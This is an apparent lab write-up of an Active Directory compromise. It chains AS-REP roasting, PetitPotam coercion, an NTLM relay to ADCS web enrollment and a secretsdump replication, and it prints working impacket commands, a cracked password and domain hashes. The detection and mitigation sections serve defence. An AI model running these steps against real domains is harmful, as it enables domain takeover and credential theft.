

# Active Directory Domain Compromise via ADCS NTLM Relay and PetitPotam Coercion

## Executive Summary

This case study documents a full Active Directory compromise chain against the `shadow.gate` domain through a combination of Kerberos user enumeration, AS-REP roasting, credential recovery, SMB/ADCS discovery, PetitPotam coercion, NTLM relay, and certificate-based Domain Controller authentication.

The attack objective was to move from unauthenticated network access to domain-level compromise by identifying exposed identity services, obtaining a valid low-privileged domain credential, abusing Active Directory Certificate Services (ADCS), and authenticating as the Domain Controller machine account.

The final impact was domain credential compromise via DRSUAPI replication using the Domain Controller machine account hash. The attack chain abused multiple Windows and Active Directory technologies, including:

- Kerberos
- LDAP
- SMB
- Active Directory Certificate Services
- Web Enrollment (`/certsrv`)
- MS-EFSRPC coercion via PetitPotam
- NTLM relay
- Certificate-based authentication
- DRSUAPI / NTDS replication

## Environment Overview

The target was a Windows Active Directory environment hosted on a Domain Controller named `DC01` in the `shadow.gate` domain.

Key environmental observations:

| Category | Finding |
| --- | --- |
| Target IP | `10.1.45.91` |
| Hostname | `DC01` |
| Domain | `shadow.gate` |
| OS | Windows Server 2022 Build 20348 |
| Role | Domain Controller |
| ADCS | Present |
| CA Name | `shadow-DC01-CA` |
| Web Enrollment | Exposed over HTTP |
| SMB Signing | Not enforced |
| LDAP Signing | Not enforced / shown as `signing: None` |
| LDAP Channel Binding | `Never` |

The externally visible attack surface strongly indicated a Domain Controller due to exposed Kerberos, LDAP, SMB, Global Catalog, RPC, DNS, and RDP services. The presence of the `CertEnroll` share and `/certsrv` web enrollment endpoint confirmed ADCS exposure, which later became the primary escalation path.

## Attack Path Overview

1. **Enumeration** — Identified Domain Controller services, ADCS indicators, and exposed Active Directory protocols.
2. **User Discovery** — Enumerated valid domain users through SMB/RPC and Kerberos username validation.
3. **AS-REP Roasting** — Tested discovered users for accounts without Kerberos pre-authentication.
4. **Credential Cracking** — Recovered the password for a vulnerable domain user from the AS-REP hash.
5. **SMB Enumeration** — Used the recovered credentials to enumerate accessible shares.
6. **ADCS Discovery** — Confirmed Certificate Services exposure through the `CertEnroll` share and CA artifacts.
7. **PetitPotam Coercion** — Forced the Domain Controller to authenticate to the attacker-controlled relay host via MS-EFSRPC.
8. **NTLM Relay** — Relayed the coerced machine-account NTLM authentication to ADCS Web Enrollment.
9. **Certificate Abuse** — Requested a Domain Controller certificate using the relayed machine identity.
10. **Domain Controller Authentication** — Used the issued certificate to authenticate as `DC01$`, retrieve its NT hash, and perform domain replication.

## Attack Flow Diagram



## Enumeration

Initial enumeration identified a service profile consistent with a Windows Domain Controller. The target exposed core Active Directory services, including DNS, Kerberos, LDAP, SMB, RPC, Global Catalog, and RDP.

Critical open ports:

```
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
```

From an attacker perspective, this service exposure established several immediate paths of investigation:

- **Kerberos (`88/tcp`)** enabled username validation and roasting checks.
- **LDAP (`389/tcp`, `636/tcp`)** exposed directory services and could reveal domain configuration when valid credentials were obtained.
- **SMB (`445/tcp`)** provided an opportunity for null-session testing, share enumeration, and later authenticated discovery.
- **HTTP (`80/tcp`)** was notable because ADCS Web Enrollment commonly exposes certificate enrollment endpoints over HTTP.
- **RPC / MSRPC (`135/tcp`, `593/tcp`)** was relevant for coercion vectors such as MS-EFSRPC.
- **Global Catalog (`3269/tcp`)** confirmed broader Active Directory functionality.

The next logical step was account discovery. Since Active Directory environments often expose enough behavior to validate usernames before authentication, Kerberos enumeration and SMB/RPC enumeration were prioritized.

## User Enumeration

SMB/RPC enumeration revealed multiple domain users and groups. While some RPC calls were access denied, anonymous interaction still returned useful identity information.

Important discovered accounts included:

```
Administrator
ATHENA
amoss
bbrown
clocke
jbradford
jsmith
jtrueblood
mbrownlee
tclarke
```

Kerberos username enumeration confirmed valid principals in the `shadow.gate` domain:

```
VALID USERNAME: jbradford@shadow.gate
VALID USERNAME: jsmith@shadow.gate
VALID USERNAME: clocke@shadow.gate
VALID USERNAME: bbrown@shadow.gate
VALID USERNAME: Administrator@shadow.gate
VALID USERNAME: ATHENA@shadow.gate
VALID USERNAME: amoss@shadow.gate
VALID USERNAME: mbrownlee@shadow.gate
VALID USERNAME: tclarke@shadow.gate
VALID USERNAME: jtrueblood@shadow.gate
```

Kerberos enumeration mattered because it allowed validation of domain accounts without requiring successful authentication. Confirmed usernames could then be used for password attacks, AS-REP roasting checks, password policy analysis, and targeted authentication attempts.

## AS-REP Roasting

AS-REP roasting was attempted against the validated user list to identify accounts configured without Kerberos pre-authentication.

Kerberos pre-authentication normally requires a user to prove knowledge of their password before the Key Distribution Center returns encrypted authentication material. When pre-authentication is disabled, an attacker can request an AS-REP response for that account and perform offline password cracking against the returned encrypted blob.

The following result identified `jtrueblood` as roastable:

```
$krb5asrep$23$jtrueblood@SHADOW.GATE:...
```

This indicated that the `jtrueblood` account had Kerberos pre-authentication disabled, creating an offline credential exposure risk. The security impact is significant because no valid password is required to obtain the roastable material; the attack only depends on knowing or guessing a valid username.

## Credential Access

The AS-REP hash was cracked offline using a wordlist-based attack. The recovered credential was:

```
jtrueblood : blood_brothers
```

Evidence of successful cracking:

```
blood_brothers   ($krb5asrep$23$jtrueblood@SHADOW.GATE)
```

The recovered credentials provided a valid low-privileged foothold in the domain. Even when the account did not directly provide administrative access, authenticated access significantly expanded the attack surface by enabling SMB share enumeration, ADCS discovery, LDAP-based analysis, and additional configuration review.

The key security implication was that a single misconfigured Kerberos account transitioned the engagement from unauthenticated reconnaissance to authenticated domain interaction.

## SMB Enumeration

Using the recovered `jtrueblood` credentials, SMB share enumeration succeeded against the Domain Controller.

Important result:

```
SMB  10.1.45.91  445  DC01  [+] shadow.gate\jtrueblood:blood_brothers

Share        Permissions  Remark
-----        -----------  ------
CertEnroll   READ         Active Directory Certificate Services share
IPC$         READ         Remote IPC
NETLOGON     READ         Logon server share
SYSVOL       READ         Logon server share
```

The most important finding was read access to the `CertEnroll` share. In an Active Directory environment, this share is a strong indicator that ADCS is installed and publishing CA certificates, certificate revocation lists, and related enrollment artifacts.

The presence of `NETLOGON` and `SYSVOL` confirmed normal Domain Controller file shares, while `CertEnroll` shifted the attack path toward certificate services abuse.

## ADCS Discovery

The `CertEnroll` share contained CA-related files:

```
DC01.shadow.gate_shadow-DC01-CA.crt
nsrev_shadow-DC01-CA.asp
shadow-DC01-CA+.crl
shadow-DC01-CA.crl
```

Inspection of the CA certificate confirmed the internal Certificate Authority:

```
Issuer:  DC=gate, DC=shadow, CN=shadow-DC01-CA
Subject: DC=gate, DC=shadow, CN=shadow-DC01-CA
Key Usage: Digital Signature, Certificate Sign, CRL Sign
Basic Constraints: CA:TRUE
```

ADCS is high-value in Active Directory because certificates can be used for authentication through PKINIT and other certificate-based trust paths. If ADCS enrollment endpoints, templates, or authentication protections are misconfigured, certificate issuance can become a privilege escalation or persistence primitive.

In this environment, the combination of ADCS Web Enrollment, HTTP exposure, coercion viability, and non-enforced SMB signing created a viable NTLM relay path.

## PetitPotam Coercion

PetitPotam abuses MS-EFSRPC behavior to coerce a Windows host into authenticating to an attacker-controlled listener. In this case, the Domain Controller was coerced into initiating NTLM authentication to the relay host.

Coercion result:

```
Trying pipe lsarpc
[+] Connected!
[+] Successfully bound!
[-] Sending EfsRpcOpenFileRaw!
[-] Got RPC_ACCESS_DENIED!! EfsRpcOpenFileRaw is probably PATCHED!
[+] OK! Using unpatched function!
[-] Sending EfsRpcEncryptFileSrv!
[+] Got expected ERROR_BAD_NETPATH exception!!
[+] Attack worked!
```

Although one EFSRPC function appeared patched, an alternate function still triggered the expected behavior. The `ERROR_BAD_NETPATH` response is a common indicator that the target attempted to reach the supplied attacker-controlled network path.

Coercion attacks are dangerous because they convert a network-accessible RPC interface into an authentication oracle. The attacker does not need to know the machine account password; instead, the target is induced to authenticate outward, and that authentication can be relayed if protections are missing.

## NTLM Relay Attack

The coerced Domain Controller authentication was relayed to the ADCS Web Enrollment endpoint:

```
impacket-ntlmrelayx -t http://10.1.45.91/certsrv/certfnsh.asp -smb2support --adcs --template DomainController
```

The relay succeeded:

```
(SMB): Received connection from 10.1.45.91, attacking target http://10.1.45.91
(SMB): Authenticating connection from /@10.1.45.91 against http://10.1.45.91 SUCCEED
http:///@10.1.45.91 -> Generating CSR...
http:///@10.1.45.91 -> Getting certificate...
http:///@10.1.45.91 -> GOT CERTIFICATE! ID 3
http:///@10.1.45.91 -> Base64-encoded PKCS#12 certificate (DC01.shadow.gate)
```

Relay was possible because the environment allowed NTLM authentication to be reused against ADCS Web Enrollment without sufficient protections such as Extended Protection for Authentication (EPA). The SMB result also showed that signing was not enforced:

```
SMB signing: False
```

SMB signing matters because it prevents tampering and relay of SMB authentication. When signing is disabled or not required, coerced NTLM authentication can be captured and relayed to another service that accepts NTLM.

In this case, relaying the Domain Controller machine account to ADCS allowed issuance of a certificate from the `DomainController` template.

## Certificate Abuse

Obtaining a certificate for the Domain Controller is a critical escalation point. In Active Directory, certificates can be used to authenticate identities without knowing their passwords or NT hashes. If an attacker obtains a valid certificate mapped to a privileged identity, they can authenticate as that identity for as long as the certificate remains valid and trusted.

The relayed ADCS request produced a PKCS#12 certificate for:

```
DC01.shadow.gate
```

After cleaning the base64 output and converting it into a PFX file, certificate authentication succeeded:

```
Certificate identities:
SAN DNS Host Name: 'DC01.shadow.gate'
Security Extension SID: 'S-1-5-21-243493930-1113464705-3012771586-1000'

Using principal: 'dc01$@shadow.gate'
Trying to get TGT...
Got TGT
Saving credential cache to 'dc01.ccache'
Trying to retrieve NT hash for 'dc01$'
Got hash for 'dc01$@shadow.gate':
aad3b435b51404eeaad3b435b51404ee:57867e655d1abc9f45fd6e954e351531
```

This confirmed successful certificate-based authentication as the Domain Controller machine account `DC01$`.

The technical significance is severe: the attacker did not need the Domain Controller password. The certificate became an alternative authentication material capable of obtaining a TGT and deriving access to the machine account hash.

## Domain Credential Replication

With the Domain Controller machine account hash available, DRSUAPI replication was used to dump domain credentials.

Command used:

```
impacket-secretsdump -hashes :57867e655d1abc9f45fd6e954e351531 'shadow.gate/DC01$@10.1.45.91'
```

Key evidence:

```
[*] Using the DRSUAPI method to get NTDS.DIT secrets

Administrator:500:aad3b435b51404eeaad3b435b51404ee:4366ec0f86e29be2a4a5e87a1ba922ec:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:b5509cbfe52e94940c0ec99b21e09802:::
shadow.gate\jtrueblood:1110:aad3b435b51404eeaad3b435b51404ee:27e133a345b980d24e3a60f169f2cb7e:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:57867e655d1abc9f45fd6e954e351531:::
```

This represented full domain compromise because privileged directory replication exposed credential material for domain users, service accounts, the Domain Controller machine account, and the `krbtgt` account.

## Impact Analysis

### Domain Compromise Potential

The attack chain resulted in the ability to authenticate as the Domain Controller machine account and perform directory replication. This is equivalent to full compromise of the Active Directory domain because NTDS secrets could be extracted, including privileged users and the `krbtgt` hash.

### Authentication Abuse

The attack demonstrated multiple authentication weaknesses:

- Kerberos pre-authentication was disabled for at least one user.
- NTLM authentication could be coerced from a Domain Controller.
- NTLM relay to ADCS Web Enrollment was possible.
- Certificate-based authentication allowed machine-account impersonation.

### Persistence Risks

A valid certificate for a privileged identity can act as durable authentication material until expiration or revocation. If not detected and revoked, the certificate may provide continued access even after passwords are changed.

If `krbtgt` material is recovered, the attacker may also gain the ability to forge Kerberos tickets, creating long-term domain persistence until the `krbtgt` password is rotated twice.

### Privilege Escalation Impact

The initial compromised account was a standard domain user. Through ADCS abuse and relay, the attack escalated from low-privileged authenticated access to Domain Controller identity compromise and domain-wide credential extraction.

This illustrates how AD misconfigurations can be chained into complete domain compromise without exploiting a memory corruption vulnerability or obtaining local administrator credentials first.

## Detection Opportunities

### EFSRPC / PetitPotam Monitoring

Monitor for suspicious MS-EFSRPC activity, especially calls from unusual clients or calls that cause Domain Controllers to authenticate to non-standard hosts.

Potential indicators:

- Unexpected EFSRPC activity involving Domain Controllers
- Outbound SMB authentication from Domain Controllers to workstation-like systems
- RPC activity followed by NTLM authentication to an attacker-controlled IP

### NTLM Relay Detection

Monitor NTLM authentication patterns for signs of relay:

- Machine-account NTLM authentication to HTTP endpoints
- Domain Controller authentication to ADCS Web Enrollment
- NTLM authentication from privileged hosts to unexpected destinations
- Multiple authentication events occurring immediately after RPC coercion attempts

### Suspicious Certificate Enrollment

Monitor ADCS enrollment events for unusual certificate requests:

- Domain Controller certificate requests outside expected maintenance windows
- Certificate requests via Web Enrollment
- Requests using templates such as `DomainController`
- Certificate issuance where the requester context does not match normal administrative behavior

Relevant Windows events may include certificate services events such as certificate issued, request submitted, and request approved events on the CA.

### ADCS Abuse Indicators

Review CA logs and issued certificates for:

- Unexpected machine certificates
- Certificate requests using NTLM-authenticated web enrollment
- Enrollment from unusual source IPs
- Certificates with privileged identities in SAN, SID extensions, or template mappings
- Abnormal use of templates that permit authentication

### Anomalous Kerberos Activity

Monitor for Kerberos activity consistent with AS-REP roasting and certificate authentication:

- AS-REQ requests without pre-authentication
- Spikes in failed or unusual Kerberos requests
- TGT requests for machine accounts from unusual hosts
- PKINIT authentication for privileged identities from unexpected locations

## Mitigations

### Enforce SMB Signing

Require SMB signing across Domain Controllers and member servers. This reduces the feasibility of relaying SMB-based NTLM authentication and prevents tampering with SMB sessions.

### Restrict or Disable NTLM

Reduce NTLM exposure wherever possible:

- Audit NTLM usage before enforcement.
- Restrict NTLM for high-value servers.
- Block NTLM authentication to sensitive services.
- Prefer Kerberos for domain authentication flows.

### Secure ADCS Templates

Harden certificate templates:

- Review templates that allow client authentication.
- Restrict enrollment permissions to required principals only.
- Remove broad enrollment rights from high-impact templates.
- Validate EKUs, SAN handling, manager approval, and subject name settings.
- Monitor templates such as `DomainController`, `Machine`, and any custom authentication-capable templates.

### Enable Extended Protection for Authentication

Enable EPA for ADCS Web Enrollment and related IIS endpoints. EPA helps bind authentication to the intended service and mitigates NTLM relay to HTTP-based enrollment endpoints.

### Patch and Reduce Coercion Vectors

Apply Microsoft patches related to known coercion vectors and reduce unnecessary RPC exposure. Where possible:

- Limit access to vulnerable RPC interfaces.
- Restrict outbound authentication from Domain Controllers.
- Segment administrative and server networks.
- Monitor and control machine-account authentication paths.

### Harden Certificate Enrollment

Strengthen ADCS operations:

- Disable legacy Web Enrollment if not required.
- Require HTTPS for enrollment endpoints.
- Enforce EPA and channel binding.
- Restrict certificate template enrollment.
- Regularly audit issued certificates.
- Revoke suspicious certificates immediately.
- Monitor CA configuration changes.

### Remediate Kerberos Pre-Authentication Exposure

Ensure all user accounts require Kerberos pre-authentication unless there is a documented business requirement. Accounts with `Do not require Kerberos preauthentication` should be treated as high risk and reviewed immediately.

## Lessons Learned

- **ADCS is Tier-0 infrastructure.** Certificate Services can become a domain compromise path when enrollment, templates, or web endpoints are misconfigured.
- **Attack chaining is central to Active Directory compromise.** No single issue alone was necessarily sufficient; the compromise emerged from chaining account discovery, AS-REP roasting, credential reuse, ADCS exposure, coercion, relay, and certificate authentication.
- **Low-privileged credentials are still high value.** A standard domain user account enabled authenticated enumeration that exposed the ADCS attack path.
- **Misconfigurations often matter more than exploits.** The attack relied primarily on protocol behavior and configuration weaknesses rather than a traditional software exploit.
- **Certificate-based authentication can bypass password resets.** Once a valid certificate is issued, password rotation alone may not remove attacker access unless the certificate is revoked and ADCS logs are reviewed.
- **Domain Controllers must not be allowed to authenticate to untrusted hosts.** Coerced authentication from Tier-0 systems creates dangerous relay opportunities when NTLM remains enabled.

## Conclusion

The engagement demonstrated a complete Active Directory compromise through ADCS abuse and NTLM relay. The initial foothold came from Kerberos pre-authentication misconfiguration, but the critical escalation path depended on ADCS exposure, coercible Domain Controller authentication, and insufficient relay protections.

The result was authentication as the `DC01$` machine account, recovery of the Domain Controller NT hash, and successful replication of domain credential material. This case highlights why ADCS, NTLM, SMB signing, and coercion hardening must be treated as core components of Active Directory security architecture.
